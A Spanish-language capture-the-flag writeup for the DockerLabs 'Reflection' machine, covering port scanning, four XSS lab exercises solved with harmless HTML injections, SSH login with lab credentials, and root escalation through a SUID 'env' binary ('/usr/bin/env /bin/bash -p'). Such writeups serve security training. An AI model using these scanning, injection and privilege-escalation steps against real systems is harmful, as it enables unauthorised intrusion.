




# Reflection ​​

## 🖥️ Writeup - Reflection

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Reflected XSS` `Stored XSS` `Information Leakage` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip reflection.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh reflection.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-01 19:13 CET
Nmap scan report for 172.17.0.2
Host is up (0.000033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 89:6c:a5:af:d5:e2:83:6c:f9:87:33:44:0f:78:48:3a (ECDSA)
|_  256 65:32:42:95:ca:d0:53:bb:28:a5:15:4a:9c:14:64:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Cross-Site Scripting (XSS)
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Identificamos que los puertos `22` y `80` están abiertos.

Accedemos al servicio web del puerto `80` y nos encontramos con esta página:


Nos encontramos ante 4 desafíos de `XSS` que debemos resolver para continuar con la explotación de la máquina.

## EXPLOTACIÓN LAB 1


En este primer desafío, el objetivo es conseguir un `XSS` Reflejado básico. Simplemente debemos lograr que nuestro input se refleje en la web.

Introducimos por ejemplo:

```
<p>Hola</p>
```

Resultado:


## EXPLOTACIÓN LAB 2



En este caso tratamos con un `XSS` Almacenado. Todo lo que inyectamos queda guardado en el servidor, por lo que cualquier visitante posterior ejecutará el código o verà el texto reflejado.

Introducimos por ejemplo:

```
--------
<h1>o2</h1>
<h1 style="color:blue;">2</h1>
```

Resultado:



## EXPLOTACIÓN LAB 3


Aquí observamos que las opciones seleccionadas en los dropdowns se reflejan en la página.

Aunque podríamos utilizar `Burp Suite` para interceptar y modificar los valores, decidimos realizar la inyección directamente desde la `URL` por rapidez.

URL original:

```
http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=ValorY&opcion3=Opcion2
```

URL modificada:

```
http://172.17.0.2/laboratorio3/?opcion1=<p>hola</p>&opcion2=<p>soy</p>&opcion3=<p>tri</p>
```

Resultado:


## EXPLOTACIÓN LAB 4


El mensaje nos indica que no hay contenido en el parámetro `data`. Sin embargo, comprobamos que si añadimos `?data=valor` manualmente a la `URL`, logramos reflejar dicho contenido en la página.

Modificamos la URL para que quede así:

```
http://172.17.0.2/laboratorio4/?data=valor
```

Resultado:



Una vez completados los 4 laboratorios, pulsamos el botón que aparece en la página principal.



Se nos revelan las credenciales del usuario `balu` : `balulero`, las cuales utilizamos para conectarnos mediante `SSH`.

```bash
ssh balu@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Info:

```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Detectamos que el binario `env` tiene el bit `SUID` habilitado. Sabemos que en este caso, la escalada de privilegios a `root` es muy sencilla. Para explotarlo, ejecutamos el siguiente comando:

```bash
/usr/bin/env /bin/bash -p
```

Info:

```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!
